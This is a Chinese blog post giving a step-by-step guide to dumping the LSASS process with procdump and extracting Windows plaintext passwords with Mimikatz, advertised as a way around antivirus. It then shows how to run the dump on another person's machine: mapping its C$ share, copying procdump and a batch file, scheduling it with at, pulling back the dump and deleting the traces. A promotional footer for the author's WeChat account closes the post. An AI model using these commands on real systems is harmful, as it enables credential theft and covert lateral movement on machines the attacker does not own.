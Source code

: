 ```yaml
---
layout: post
category: binghe-code-hack
title: 利用procdump+Mimikatz 绕过杀软获取Windows明文密码
tagline: by 冰河
tag: [hack,binghe-code-hack]
excerpt: 利用procdump+Mimikatz 绕过杀软获取Windows明文密码
lock: need
---
```


# 利用procdump+Mimikatz 绕过杀软获取Windows明文密码

Mimikatz现在已经内置在Metasploit’s  meterpreter里面，我们可以通过meterpreter下载。但是你如果觉得还要考虑杀毒软件，绑定payload之类的东西太过复杂，我们可以有更好的办法，只需要在自己的电脑上运行Mimikatz alpha([地址](http://blog.gentilkiwi.com/mimikatz))版本,然后处理dump的LSASS进程内存文件就行！

那么如何dump LSASS进程内存呢。可以通过以下方式：

**1.对于NT6可以使用windows自带的功能进行dump:**

任务管理器—进程—显示所有用户进程—找到lsass—右键“创建转储文件”

![img](https://img-blog.csdnimg.cn/20181219222000264.png)

![img](https://img-blog.csdnimg.cn/20181219222020980.png)

**2.对于NT5可以使用微软的Procdump工具（这当然不会引起杀软报毒）**

Procdump: http://technet.microsoft.com/en-us/sysinternals/dd996900.aspx

命令如下：

```
Procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

![img](https://img-blog.csdnimg.cn/2018121922212881.png)

我们运行mimikatz的平台（platform）要与进行dump的系统(source dump)兼容，兼容性如下：

![img](https://img-blog.csdnimg.cn/201812192222067.png)

得到dump后的文件我们就能使用mimikatz获取密码了。我们dump自己的电脑当然没什么意思，下面介绍怎么dump别人的电脑。

首先我们需要能够访问别人的C$（通常只有管理员可以）

```
net use \\TARGETBOX\C$ /user:DOMAIN\Username password
dir \\TARGETBOX\C$
```

如果上述命令好使的话，我们接下来使用AT命令。

```
at \\TARGETBOX
```

接下来我们可以在目标主机上开展工作了。

```
mkdir \\TARGETBOX\C$\Temp
dir \\TARGETBOX\C$\Temp
copy c:\temp\procdump.exe \\TARGETBOX\C$\Temp
copy c:\temp\procdump.bat \\TARGETBOX\C$\Temp
```

procdump.bat中的内容如下

```
@echo off
C:\temp\procdump.exe -accepteula -ma lsass.exe %COMPUTERNAME%_lsass.dmp
```

这里一个技巧就是dump得到的文件名中有“计算机名”，这样可以让我们区分是来dump的文件自哪台电脑。

我们继续。 使用 net time 来获知远程主机上的时间。

```
net time \\TARGETBOX
at \\TARGETBOX 13:52 C:\Temp\procdump.bat
```

复制dump的文件，然后清理痕迹

```
dir \\TARGETBOX\C$\Temp
copy \\TARGETBOX\C$\Temp\*lsass.dmp C:\temp\output\
rmdir /s \\TARGETBOX\C$\Temp
```

之后我们就可以运行我们电脑上的Mimikatz，对得到的.dmp文件进行分析了（注意上文提到的兼容性）。命令如下：

```
mimikatz # sekurlsa::minidump SUPERCOMPUTER_lsass.dmp
Switch to MINIDUMP
mimikatz # sekurlsa::logonPasswords full
```

到此结束！我们得到了远程主机上的密码。


## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
